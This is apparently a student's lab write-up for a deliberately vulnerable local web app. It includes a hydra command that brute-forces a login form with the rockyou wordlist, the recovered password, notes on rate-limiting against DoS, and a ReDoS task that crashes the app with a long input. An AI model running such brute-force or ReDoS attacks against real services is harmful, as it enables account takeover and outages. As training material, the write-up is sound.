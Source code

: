
![](https://i.imgur.com/XnASFXM.png)



decode this value:

```
Developer username: devteam
Client: Rockyou

```

Lets bruteforce with Rockyou "wordlist" and username "devteam":

```
hydra -l devteam -P ~/Downloads/rockyou.txt/rockyou.txt 127.0.0.1  http-post-form "/:username=^USER^&password=^PASS^:F=Invalid" -s 5000
```

the password is: "manchesterunited"


I am not sure but I guess we should do the following for mitigating DOS base on limiting the rate:

> - Define a minimum ingress data rate limit, and drop all connections below that rate. Note that if the rate limit is set too low, this could impact clients. Inspect the logs to establish a baseline of genuine traffic rate. (Protection against slow HTTP attacks)
> - Define an absolute connection timeout
> - Define a maximum ingress data rate limit, and drop all connections above that rate.
> - Define a total bandwidth size limit to prevent bandwidth exhaustion
> - Define a load limit, which specifies the number of users allowed to access any given resource at any given time.

## Task 25: Regex Ddos


The Regular expression Denial of Service (ReDoS) is a Denial of Service attack, that exploits the fact that most Regular Expression implementations may reach extreme situations that cause them to work very slowly (exponentially related to input size). An attacker can then cause a program using a Regular Expression (Regex) to enter these extreme situations and then hang for a very long time.

The attacker might use the above knowledge to look for applications that use Regular Expressions, containing an Evil Regex, and send a well-crafted input, that will hang the system. Alternatively, if a Regex itself is affected by a user input, the attacker can inject an Evil Regex, and make the system vulnerable.



### Implementation:

lets send a real long string "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa". We can see that app will crash. Before doing this, I tried with different length of input and I observed that by increasing the input size, the response time will increase too.


![](https://i.imgur.com/YFtYmQv.png)

